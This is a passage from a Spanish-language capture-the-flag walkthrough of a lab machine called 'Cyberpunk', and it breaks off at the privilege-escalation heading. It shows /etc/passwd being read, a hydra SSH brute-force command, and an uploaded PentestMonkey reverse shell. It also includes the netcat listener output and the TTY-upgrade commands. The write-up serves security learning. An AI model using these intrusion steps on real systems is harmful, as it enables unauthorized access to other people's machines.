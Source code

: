 ![Pasted image 20250223165848.png](imagenes/Pasted image 20250223165848.png)

Vemos que accedermos correctamente. 
Accedemos al fichero `/etc/passwd` y enumeramos usuarios:

```bash
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
arasaka:x:1000:1000:arasaka,,,:/home/arasaka:/bin/bash
```

Con hydra probamos a bruteforcear con el usuario `arasaka`, ya que hemos visto que tenia el puerot 22 abierto.

```bash
hydra -l arasaka -P /usr/share/wordlist/rockyou.txt 192.168.0.78 ssh
```


# Explotación de vulnerabilidades

Al parecer, transcurido un tiempo, no encontramos password.
Probamos a entrar subiendo directamente una rever shell (PentestMonkey) con el método anterior, al FTP y accedemos a

`http://192.168.0.78/shell.php`

Ganamos acceso y hacemos tratamiento de la TTY

```bash
nc -nlvp
listening on [any] 4444 ...
connect to [192.168.0.176] from (UNKNOWN) [192.168.0.78] 48614
Linux Cyberpunk 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64 GNU/Linux
 18:16:49 up  1:21,  0 user,  load average: 1.46, 0.97, 0.54
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: cant access tty; job control turned off
$ script -c bash /dev/null
Script started, output log file is '/dev/null'.
www-data@Cyberpunk:/$ ^Z
[1]  + 84352 suspended  nc -lvnp 4444
❯ stty raw -echo; fg
[1]  + 84352 continued  nc -lvnp 4444
                                     resert xterm
bash: resert: command not found
www-data@Cyberpunk:/$ 
www-data@Cyberpunk:/$ stty rows 24 cols 185 


```


# Escalada de privilegios
